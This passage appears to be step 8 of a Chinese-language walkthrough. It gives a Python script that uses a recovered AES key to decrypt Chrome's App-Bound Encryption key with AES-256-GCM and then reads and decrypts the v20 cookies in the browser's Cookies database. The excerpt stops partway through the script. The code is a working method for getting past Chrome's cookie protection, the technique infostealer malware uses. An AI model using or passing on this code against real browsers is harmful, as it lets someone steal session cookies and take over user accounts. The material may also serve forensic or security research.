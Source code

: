 （8）最后，编写以下 Python 脚本，将上一步获取到的 `aes_key` 的值作为密钥，通过 `AES-256-GCM` 的算法对 CIPHERTEXT 部分进行解密（还需要用到 VI 和 TAG 部分），得到最终用来解密 Cookies 的 “App‑Bound Key”。接着，读取 `Cookies` 数据库文件中的 Cookies 并使用 “App-Bound Key” 进行解密。

```python
import sqlite3
import json
from Crypto.Cipher import AES
from datetime import datetime

def decrypt_app_bound_encrypted_key(aes_key):
    iv = bytes.fromhex("397e15a37a6dbbcfee2f05db")
    ciphertext = bytes.fromhex("88b648b69cd84b0450824938ebbc8c163b3889bd7f4424aac250e8f78c65fd7b")
    tag = bytes.fromhex("c83481cc61711bee16cca9c409bf6f73")

    cipher = AES.new(aes_key, AES.MODE_GCM, nonce=iv)
    return cipher.decrypt_and_verify(ciphertext, tag)

def decrypt_v20_cookie(encrypted_value, key):
    cookie_iv = encrypted_value[3:15]
    encrypted_cookie = encrypted_value[15:-16]
    cookie_tag = encrypted_value[-16:]

    cipher = AES.new(key, AES.MODE_GCM, nonce=cookie_iv)
    decrypted_cookie = cipher.decrypt_and_verify(encrypted_cookie, cookie_tag)
    return decrypted_cookie[32:].decode('utf-8')

def fetch_cookies(db_path):
    conn = sqlite3.connect(db_path, uri=True)
    cursor = conn.cursor()

    cursor.execute("""
        SELECT creation_utc, host_key, name, encrypted_value, 
               expires_utc, last_access_utc, last_update_utc,
               is_secure, is_httponly
        FROM cookies
    """)

    cookies = [row for row in cursor.fetchall() if row[3][:3] == b"v20"]
    conn.close()
    return cookies

def chrome_time_to_iso(timestamp):
    if timestamp == 0:
        return None
    try:
        epoch_start = datetime(1601, 1, 1)
        delta = datetime.fromtimestamp(timestamp / 1000000) - datetime.fromtimestamp(0) + epoch_start - datetime(1970,
                                                                                                                 1, 1)
        return (epoch_start + delta).isoformat()
    except:
        return None

def main():
    aes_key = bytes.fromhex("b69836de7714d79f38c7c53f2376f6b063a57958853a1b93cb58857ec902eab0")
    app_bound_decrypted_key = decrypt_app_bound_encrypted_key(aes_key)
    print(f"[+] Decrypted app_bound_key: {app_bound_decrypted_key.hex()}")

    cookies = fetch_cookies("Cookies")
    print(f"[*] Found {len(cookies)} v20 cookies")

    result = {
        "metadata": {
```